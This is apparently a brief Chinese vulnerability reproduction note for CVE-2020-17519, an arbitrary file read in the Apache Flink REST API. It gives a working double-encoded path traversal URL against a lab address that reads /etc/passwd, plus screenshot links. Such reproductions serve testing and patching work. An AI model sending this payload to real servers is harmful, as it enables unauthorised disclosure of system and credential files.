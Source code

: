 ![image-20230926104510294](images/4.png)

# CVE-2020-17519

Apache Flink REST API 任意文件读取漏洞

## 漏洞复现

```
http://192.168.0.106:8081/jobmanager/logs/..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd
```

![image-20230926104613034](images/5.png)
